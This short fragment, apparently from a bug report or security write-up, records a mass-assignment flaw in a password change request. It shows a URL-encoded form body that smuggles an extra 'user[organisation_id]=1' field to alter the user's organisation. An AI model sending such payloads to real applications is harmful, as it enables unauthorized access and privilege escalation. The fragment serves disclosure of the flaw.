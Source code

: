 Mass asignment in password change request:
```
user%5Busername%5D=test&user%5Bpassword%5D=test&user[organisation_id]=1&submit=Submit+Query
```
